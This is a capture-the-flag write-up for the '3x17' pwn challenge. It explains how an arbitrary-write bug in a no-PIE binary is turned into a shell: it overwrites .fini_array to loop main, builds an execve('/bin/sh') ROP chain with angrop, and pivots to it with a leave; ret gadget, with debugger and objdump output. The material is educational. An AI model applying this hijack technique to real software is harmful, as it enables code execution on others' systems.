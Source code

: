 # 3x17 [150 pts] 
> 3 x 17 = ?

# Summary
The challenge gives us the ability to write 0x18 bytes to an arbitrary location.
Since we don't know stack addresses, we instead write to the `.fini_array` section which get called
after `main` returns.
First, we create a loop that continiously calls `main` which allows us to write an `execve('/bin/sh')` ROPchain.
Then we overwrite the `.fini_array` a `leave; ret` gadget which triggers the ROPchain.

## Understanding the binary
The binary prompts the user for `addr:` and `data:`. Using `strace` we can see that the addr is passed as an integer and data is written to that address.
```bash
$ strace ./3x17
...
write(1, "addr:", 5addr:)                    = 5
read(0, 1234 "1234\n", 24)                   = 5
write(1, "data:", 5data:)                    = 5
read(0, 1234 0x4d2, 24)                      = -1 EFAULT (Bad address)
...
```
Note: `0x4d2 == 1234`

Notably we are dealing with a No-PIE binary, which gives us some known addresses.
```bash
$ checksec ./3x17
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## .fini_array
According to the [Linux Standard Base Core Specification](https://refspecs.linuxbase.org/LSB_5.0.0/LSB-Core-generic/LSB-Core-generic/specialsections.html#AEN743):

> .fini_array	 	
> 
> This section holds an array of function pointers that contributes to a single termination array for the executable or shared object containing the section

This means that the `.fini_array` section is an array of function pointers that get called after `main` returns.
We can show this via the following example:
```c
// gcc fini_test.c -no-pie -o fini_test
#include <stdio.h>
#include <sys/mman.h>
// Define destructor x
__attribute__((destructor)) void x(){ puts("x() called!");};

void a(){ puts("a() called!"); }
void b(){ puts("b() called!"); }
void c(){ puts("c() called!"); }

// objdump -s -j .fini_array fini_test
void** fini_addr = (void**)0x403e10u ; 
int main(){
    mprotect((void*) 0x403000u, 0x1000, PROT_READ| PROT_WRITE);
    // Overwrite the fini_array
    fini_addr[0] = a;
    fini_addr[1] = b;
    fini_addr[2] = c;
}
```
This example defines one destructor `x()` and then overwrites the `.fini_array` with the functions `a()`, `b()`, and `c()`.
This function prints the following:
```sh
$ gcc fini_test.c -no-pie -o fini_test # Compile with no-pie, so we have the absolute address of .fini_array
$ ./fini_test
b() called!
a() called!
```
We can see that the functions are called in reverse order, which is the order they are stored in the `.fini_array` section.
Also only the first two functions are called, since there is a variable that stores the number of destructors.

```sh
$ objdump -s -j .fini_array fini_test # Show the contents of .fini_array
...
Contents of section .fini_array:
 403e10 20114000 00000000 56114000 00000000   .@.....V.@.....
```
The reason that `.fini_array` has two array elements seems to be because the first element is a `.plt` entry that calls `_dl_runtime_resolve_xsavec`.
Presumably this is a cleanup function that is called after the destructors are called.
The second element is our `x()` destructor.

### .fini_array Deeper dive
How do the functions in `.fini_array` get called? Let's jump into the debugger to find out:
First we [Activate Glibc Source Code in GDB](https://ethanol1310.github.io/2021/07/27/Tutorial/GDB/gdb_4_glibc/) and use [GEF](https://hugsy.github.io/gef/) 
to show the source code while debugging in GDB.
```bash
gdb ./fini_test -ex "b *a" -ex "r" -ex "up" -ex "context"
```

![Backtrace of a destructor function](fini_test_backtrace.png)

Using `up` and `context`, we see that the following code is executed (Glib version 2.35) in ./elf/dl-fini.c:
```c
    139   unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
    140                     / sizeof (ElfW(Addr)));
 →  141   while (i-- > 0)
    142     ((fini_t) array[i]) ();
```

In the challenge we can see similar behavior. If we break at the `.fini_array` element, we reach the following backtrace:
```bash
echo -e "0x4b4000\na" > input
gdb ./3x17 -ex "b*0x0401b00" -ex "r < input"  -ex "up" -ex "context"
```
![Backtrace of 3x17](3x17_backtrace.png)

```mips
     0x402988                  call   QWORD PTR [rbp+rbx*8+0x0]
 →   0x40298c                  sub    rbx, 0x1
     0x402990                  cmp    rbx, 0xffffffffffffffff
```
## Exploitation
A quick objdump shows us that the `.fini_array` section is at `0x4b40f0` and contains 2 pointers.
```bash
$ objdump -s -j .fini_array ./3x17
Contents of section .fini_array:
 4b40f0 001b4000 00000000 80154000 00000000  ..@.......@.....
```

To recap:
1. We can write 0x18 bytes to an arbitrary address with the `main()` function
2. The `_dl_fini()` function calls the two functions in the `.fini_array` section in reverse order

We can use this to create a loop that calls `main()` over and over again, by creating the following .fini_array:

| fini_array[0] | fini_array[1] |
| - | - |
| 0x402960 (_dl_fini) | 0x0401b6d (main) |

This allows us to write arbitrary data to any known writable address.

### Triggering a ROPchain
A problem we run into is that we don't know the address of the stack, so we can't write a ROPchain to the stack.
So we have to pivot to another writable address:
Luckily, when we call `fini_array[0]`, the `$rbp` register is set to `0x4b40f0` which is the address of the `.fini_array` section.

```c
gef➤  reg $rbp
$rbp   : 0x00000000004b40f0  →  0x0000000000401b00
```

This means that we can use the `leave; ret` gadget to pivot to the `.fini_array` section. Quick reminder that leave; ret = 
```mips
mov rsp, rbp + 8; 
pop rbp
ret
```
![Stack before and after the Leave gadget](Leave.png)

### Creating a ROPchain
I just used [angrop](https://github.com/angr/angrop) to automatically generate a ROPchain that calls `execve('/bin/sh')`.
```python
import angr, angrop
p = angr.Project('./3x17')
rop = p.analyses.ROP()
rop.find_gadgets()
chain = rop.execve('/bin/sh', 0, 0)
chain.print_payload_code()
```

# Putting it all together
1. Create a loop that calls `main()` over and over again by overwriting the `.fini_array` section with the following:
    | fini_array[0] | fini_array[1] |
    | - | - |
    | 0x402960 (_dl_fini) | 0x0401b6d (main) |

2. Use this loop to write ropchain after `.fini_array[2]
3. Overwrite `.fini_array[0]` with a `leave; ret` gadget and `.fini_array[1]` with `ret` to trigger the ROPchain

The exploit can be found in [04_3x17.py](04_3x17.py)
